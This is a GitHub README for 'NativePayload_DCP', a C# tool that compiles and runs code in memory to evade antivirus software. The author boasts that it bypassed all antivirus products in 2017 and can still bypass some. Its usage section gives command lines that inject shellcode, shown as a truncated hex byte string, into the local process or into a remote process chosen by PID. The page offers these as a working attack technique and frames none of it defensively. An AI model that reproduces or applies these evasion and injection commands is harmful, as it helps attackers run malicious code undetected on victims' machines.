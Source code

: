 # NativePayload_DCP

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in [Jun 2017] and Published in [Mar 2023] ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_DCP"/></a></p>

usage:
      
    Syntax: injection into local process
    
    NativePayload_DCP.exe DYN-PAY-ARG "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    
    Syntax: injection into remote process
    
    NativePayload_DCP.exe DYN-TEXT-FILE CHUNK NativePayload_Tinjection.cs TPID "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    NativePayload_DCP.exe DYN-TEXT-FILE Program.cs TPID


   ![](https://github.com/DamonMohammadbagher/NativePayload_DCP/blob/main/DCP.png)


   ![](https://github.com/DamonMohammadbagher/NativePayload_DCP/blob/main/NativePayload_DCP.png)
